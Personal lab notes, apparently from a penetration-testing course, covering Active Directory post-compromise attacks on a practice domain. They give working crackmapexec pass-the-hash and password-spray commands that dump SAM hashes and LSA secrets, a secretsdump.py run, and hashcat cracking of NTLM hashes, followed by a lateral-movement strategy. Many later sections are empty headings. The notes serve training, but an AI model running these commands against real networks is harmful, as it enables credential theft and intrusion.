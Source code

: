 # Attacking Active Directory - Post-Compromise Attacks

## Introduction

- we need some credentials for these attacks to be effective.

## Pass Attacks Overview

- `apt install crackmapexec`
- `crackmapexec smb --help` to see what we need to provide

## Pass Attacks

- `crackmapexec smb 192.168.92.0/24 -u fcastle -d MARVEL.local -p 'Password1'`
- `crackmapexec smb 192.168.92.0/24 -u fcastle -d MARVEL.local -p 'Password1' --sam` to dump the sam hashes
- `crackmapexec smb 192.168.92.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 --local-auth --sam` or `crackmapexec smb 192.168.92.0/24 -u "David Lieberman" -H aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0 --local-auth --sam`
- `crackmapexec smb 192.168.92.0/24 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 --local-auth --shares` to see shared folders
- `crackmapexec smb 192.168.92.0/24 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 --local-auth --lsa` to see LSA secrets

### Using modules

- `crackmapexec smb 192.168.92.0/24 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -M lsassy`
- everything is stored in CME database: `cmedb`, then `hosts` and `creds` in the shell

## Dumping and Cracking Hashes

- `secretsdump.py MARVEL.local/administrator:'P@$$w0rd!'@192.168.92.146`: there can be clear text passwords and logins in here

- Need the NT portion, not the LM
- Full hash: `aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0`
- LM Portion: `aad3b435b51404eeaad3b435b51404ee`
- NT Portion: `31d6cfe0d16ae931b73c59d7e0c089c0`
- `hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt`

- once you have fcastle hash, you crack it, you spray the password. Once you found a new login, you secretdump thos logins. Now, you can use local admin hashes to respray the network with local accounts (reducing the risk to block an account).

## Pass Attack Mitigations

## Kerberoasting Overview

## Kerberoasting Walkthrough

## Kerberoasting Mitigation

## Token Impersonation Overview

## Token Impersonation Walkthrough

## Token Impersonation Mitigation

## LNK File Attacks

## GPP / cPassword Attacks and Mitigations

## Mimikatz Overview

## Credential Dumping with Mimikatz

## Post-Compromise Attack Strategy
